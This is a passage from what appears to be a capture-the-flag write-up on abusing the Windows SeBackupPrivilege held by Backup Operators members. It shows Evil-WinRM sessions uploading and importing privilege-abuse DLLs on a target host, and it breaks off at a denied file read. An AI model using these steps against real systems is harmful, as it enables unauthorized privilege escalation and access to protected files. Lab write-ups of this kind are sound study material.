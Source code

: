     Logon hours allowed          All
    
    Local Group Memberships      *Backup Operators     *Remote Management Use
    Global Group memberships     *Domain Users
    The command completed successfully.
    

[Backup Operators](https://www.backup4all.com/what-are-backup-operators-
kb.html) is a default Windows group that is designed to backup and restore
files on the computer using certain methods to read and write all (or most)
files on the system.

### Copy-FileSeBackupPrivilege

[This repo](https://github.com/giuliano108/SeBackupPrivilege) has a nice set
of PowerShell tools for abusing the `SeBackupPrivilege`. I’ll clone it, and
then I’ll need to upload two files to Blackfields:

    
    
    *Evil-WinRM* PS C:\programdata> upload /opt/SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
    Info: Uploading /opt/SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll to C:\programdata\SeBackupPrivilegeCmdLets.dll
    
                                                                 
    Data: 16384 bytes of 16384 bytes copied
    
    Info: Upload successful!
    
    *Evil-WinRM* PS C:\programdata> upload /opt/SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll
    Info: Uploading /opt/SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll to C:\programdata\SeBackupPrivilegeUtils.dll
    
                                                                 
    Data: 21844 bytes of 21844 bytes copied
    
    Info: Upload successful!
    

Now I’ll import them into my current session:

    
    
    *Evil-WinRM* PS C:\programdata> import-module .\SeBackupPrivilegeCmdLets.dll
    *Evil-WinRM* PS C:\programdata> import-module .\SeBackupPrivilegeUtils.dll
    

Now I can read files across the filesystem. For example, I can’t read
`C:\windows\system32\config\netlogon.dns` as a non-admin user:

    
    
    *Evil-WinRM* PS C:\windows\system32\config> type netlogon.dns              
    Access to the path 'C:\windows\system32\config\netlogon.dns' is denied.    
    At line:1 char:1                                                                                                     
    + type netlogon.dns                                                                                                                                                                                                                        
    + ~~~~~~~~~~~~~~~~~                                                                                                  
        + CategoryInfo          : PermissionDenied: (C:\windows\system32\config\netlogon.dns:String) [Get-Content], UnauthorizedAccessException
        + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand 
    